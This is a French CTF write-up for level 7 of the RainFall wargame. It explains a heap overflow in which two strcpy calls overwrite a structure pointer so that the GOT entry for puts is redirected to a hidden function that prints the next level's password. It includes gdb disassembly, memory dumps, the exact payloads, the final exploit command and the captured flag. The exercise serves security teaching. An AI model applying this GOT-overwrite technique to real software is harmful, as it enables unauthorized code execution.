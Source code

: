 # Level 7

Ce niveau est très similaire au [niveau précédent](/level6/README.md), cette fois on peut voir que le binaire ouvre le fichier `/home/user/level8/.pass` et récupère son contenu sans l'afficher.  
Une fonction `m` est présente mais pas utilisée, cette fonction affiche le contenu du fichier `.pass`.

En examinant le code, on peut voir qu'il `malloc` 2 structures et copie les `argv` 1 et 2 dans le pointeur de la structure :
   1. Avec le premier `strcpy`, nous pouvons réecrire l'addresse du pointeur de la deuxième structure par celle de la fonction `puts` et copier à cette adresse celle de notre fonction `m`.
      - `objdump -R level7` nous apprend que `puts` est à l'adresse `08049928` dans la [*Global Offset Table*](https://en.wikipedia.org/wiki/Global_Offset_Table).
      - L'allocation mémoire sur la *heap* est continue. On sait que le malloc d'une `struct level7` pèse 8 octets (un simple `disas main` depuis `gdb` suffit pour le confirmer).
      - Le premier `strcpy` écrit dans `structOne->*buffer` ; le second va écrire dans `structTwo->*buffer`. Le but de notre premier exploit est d'écraser le contenu de `structTwo->buffer` pour modifier l'adresse où le contenu de `argv[2]` sera copié. Il nous faudra 20 octets de remplissage avant d'écrire l'adresse de `puts` dans `structTwo->buffer`.
      - Notre premier exploit sera donc la forme : `python -c 'print "B"*20 + "\x28\x99\x04\x08"'`.
   2. Avec le second `strcpy`, nous allons placer l'adresse de la fonction `m`, de façon à ce qu'au moment d'appeller `puts`, ce soit en fait `m` qui soit appellée et exécutée.
      - Avec `gdb`, on détermine l'adresse de `m` : `0x80484f4`.
      - Notre second exploit sera donc `python -c 'print "\xf4\x84\x04\x08"'`.

```shell
level7@RainFall:~$ gdb level7
(gdb) info func
All defined functions:
Non-debugging symbols:
[...]
0x080484f4  m
0x08048521  main
[...]
(gdb) disas main
Dump of assembler code for function main:
[...]
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
[...]
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
[...]
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
(gdb) r BBBB AAAA
Starting program: /home/user/level7/level7 BBBB AAAA
Program received signal SIGSEGV, Segmentation fault.
0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
(gdb) info variables
All defined variables:
Non-debugging symbols:
[...]
0x08049908  _GLOBAL_OFFSET_TABLE_
[...]
(gdb) x/24a 0x08049908
0x8049908 <_GLOBAL_OFFSET_TABLE_>:	0x804983c <_DYNAMIC>	0xb7fff918	0xb7ff26a0	0x80483b6 <printf@plt+6>
0x8049918 <fgets@got.plt>:	0xb7e90b70 <fgets>	0x80483d6 <time@plt+6>	0xb7eb8aa0	0xb7ea4e70 <malloc>
0x8049928 <puts@got.plt>:	0x8048406 <puts@plt+6>	0x8048416 <__gmon_start__@plt+6>	0xb7e453e0 <__libc_start_main>	0xb7e90e60 <fopen>
0x8049938 <data_start>:	0x0	0x0	0x0	0x0
[...]
0x8049968 <c+8>:	0x0	0x0	0x0	0x0
0x8049978 <c+24>:	0x0	0x0	0x0	0x0
0x8049988 <c+40>:	0x0	0x0	0x0	0x0
0x8049998 <c+56>:	0x0	0x0	0x0	0x0
0x80499a8 <c+72>:	0x0	0x0	0x0	0x0
[...]
0x8049ff8:	0x0	0x0	0x0	0x11
0x804a008:	0x1	0x804a018	0x0	0x11
0x804a018:	0x42424242	0x0	0x0	0x11
0x804a028:	0x2	0x804a038	0x0	0x11
0x804a038:	0x41414141	0x0	0x0	0x20fc1
0x804a048:	0xfbad240c	0x0	0x0	0x0
0x804a058:	0x0	0x0	0x0	0x0
0x804a068:	0x0	0x0	0x0	0x0
(gdb) quit
~ ./level7 `python -c 'print "B"*20+"\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1599750175
```